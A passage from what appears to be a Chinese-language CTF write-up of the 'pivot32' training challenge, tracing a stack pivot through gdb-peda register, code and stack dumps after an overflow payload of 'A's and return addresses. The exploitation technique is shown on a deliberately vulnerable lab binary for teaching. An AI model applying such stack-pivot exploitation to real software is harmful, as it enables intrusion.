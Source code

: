 执行第一次 leave：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0xf755cf0c --> 0x0
ESP: 0xffe7ec6c --> 0x804889f (<pwnme+173>:     leave)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec6c --> 0x804889f (<pwnme+173>:    leave)
0004| 0xffe7ec70 --> 0xf755000a --> 0x0
0008| 0xffe7ec74 --> 0x0
0012| 0xffe7ec78 --> 0x2
0016| 0xffe7ec7c --> 0x0
0020| 0xffe7ec80 --> 0x1
0024| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0028| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
```

EBP 的值 `0xffe7ec68` 被赋值给 ESP，然后从栈中弹出 `0xf755cf0c`，即 fake ebp 并赋值给 EBP，同时 ESP+4=`0xffe7ec6c`，指向第二次的 leave。

执行第一次 ret：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0xf755cf0c --> 0x0
ESP: 0xffe7ec70 --> 0xf755000a --> 0x0
EIP: 0x804889f (<pwnme+173>:    leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048896 <pwnme+164>:       call   0x80485b0 <fgets@plt>
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
=> 0x804889f <pwnme+173>:       leave  
   0x80488a0 <pwnme+174>:       ret
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
```